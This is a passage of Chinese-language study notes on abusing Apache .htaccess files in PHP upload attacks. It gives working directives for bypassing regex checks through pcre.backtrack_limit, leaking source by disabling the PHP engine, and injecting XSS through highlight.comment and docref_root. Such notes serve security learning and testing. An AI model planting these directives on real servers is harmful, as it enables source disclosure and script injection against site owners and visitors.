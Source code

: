 ```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
```

设置正则回朔次数来使正则匹配的结果返回为 false 而不是0 ，从而可以绕过正则。

`php_flag` 用来设定布尔值的 `php` 配置指令
用法：

```
php_flag name on|off
```

查看[php.ini 配置选项列表](https://www.php.net/manual/zh/ini.list.php),寻找可利用指令
[![image-20221126141834470](D:\MDlearn\学习记录\md\文件上传相关部分.assets\image-20221126141834470.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200909005659-4f6099ac-f1f4-1.png)
可以将 `engine` 设置为 0,在本目录和子目录中关闭 `php` 解析,造成源码泄露

```
php_flag engine 0
```

#### 0x3.6XSS

###### 0x3.6.1 highlight_file

.htaccess

```
php_value highlight.comment '"><script>alert(1);</script>'
```

其中的 `highlight.comment` 也可以换成如下其他选项
![image-20221126142611836](D:\MDlearn\学习记录\md\文件上传相关部分.assets\image-20221126142611836.png)

index.php

```
<?php
highlight_file(__FILE__);
// comment
```

###### 0x3.6.2错误消息链接

index.php ：

```
<?php
include('foo');#foo报错
```

.htaccess

```
php_flag display_errors 1
php_flag html_errors 1
php_value docref_root "'><script>alert(1);</script>"
```
